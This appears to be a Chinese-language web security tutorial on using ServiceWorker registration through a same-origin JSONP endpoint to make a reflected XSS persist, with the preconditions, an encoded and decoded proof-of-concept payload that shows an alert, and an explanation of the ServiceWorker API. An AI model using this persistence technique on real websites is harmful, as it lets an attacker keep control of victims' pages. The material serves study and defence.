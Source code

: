 



## ServiceWorker 持久化

**Service worker** 是一个注册在指定源和路径下的事件驱动worker。它采用JavaScript控制关联的页面或者网站，拦截并修改访问和资源请求，细粒度地缓存资源。你可以完全控制应用在特定情形（最常见的情形是网络不可用）下的表现



**利用ServiceWorker 可以将反射型XSS变成存储型XSS, 进行持久化利用**

利用条件

* 1.只在 HTTPS 下工作  或者 localhost 下
* 2.安装ServiceWorker的脚本需要当前域下，且返回的 content-type 包含 /javascript。(也就是一个jsonp)。
* 3.一个xss漏洞点

### payload

先上个payload



```javascript
<script>
navigator.serviceWorker.register("/test.php?callback=onfetch%3Dfunction(e)%7B%0Ae.respondWith(new%20Response(%27%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E%27%2C%7Bheaders%3A%20%7B%27Content-Type%27%3A%27text%2Fhtml%27%7D%7D))%0A%7D%2F%2F");
</script>
```

解码后

```javascript
<script>
navigator.serviceWorker.register("/test.php?callback=onfetch=function(e){
e.respondWith(new Response('<script>alert(document.domain)</script>',{headers: {'Content-Type':'text/html'}}))
}//");
</script>
```





### payload 分析

`navigator.serviceWorker.register()`

**`register` 的脚本只能是同源的** ，因此 `jsonp`就很好的满足了条件

* `navigator`  表示用户代理的状态和标识。 它允许脚本查询它和注册自己进行一些活动。

具体参考 [Navigator - Web API 接口参考 | MDN](https://developer.mozilla.org/zh-CN/docs/Web/API/Navigator)

* ``navigator.serviceWorker`  本质上充当位于Web应用程序，浏览器和网络之间的代理服务器。它们的主要作用是创建有效的脱机体验，拦截网络请求并根据网络是否可用采取适当的措施，以及更新服务器上的资产。他们还将允许访问推送通知和后台同步API
*  ``navigator.serviceWorker.register()`为给定的创建或更新一个`scriptURL`,如果成功，则服务工作者注册会将提供的脚本URL绑定到*作用域*，该*作用域*随后用于导航匹配。您可以从受控页面无条件调用此方法 。[ServiceWorkerContainer.register（）-Web API |中文 MDN](https://developer.mozilla.org/en-US/docs/Web/API/ServiceWorkerContainer/register)
